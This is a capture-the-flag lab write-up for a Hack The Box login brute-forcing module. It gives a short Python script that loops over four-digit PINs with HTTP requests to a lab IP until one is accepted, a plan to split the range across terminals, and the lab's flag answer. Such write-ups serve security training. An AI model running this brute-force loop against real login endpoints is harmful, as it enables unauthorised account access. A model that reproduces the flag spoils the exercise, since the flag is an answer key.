

# Section 03: Brute Force Attacks

Module: 16. Login Brute Forcing

---

## Questions & Answers

### 1. After successfully brute-forcing the PIN, what is the full flag the script returns?

Context:
- Script:
```python
import requests

for i in range(xxx,xxx):
    pin = f"{i:04d}"
    print(f"Attempting {pin}")
    res = requests.get(f"http://154.57.164.82:31226/pin?pin={pin}")

    print(res.text)
    if "Incorrect" not in res.text:
        print(res.text)
        break
```
- I create 3 scripts to faster the process:
```
Terminal 1: 0000 -> 4000
Terminal 2: 4000 -> 7000
Terminal 3: 7000 -> 9999
```


**Answer:** `HTB{Brut3_F0rc3_1s_P0w3rfu1}`

---

[Back to Module Index](./README.md)
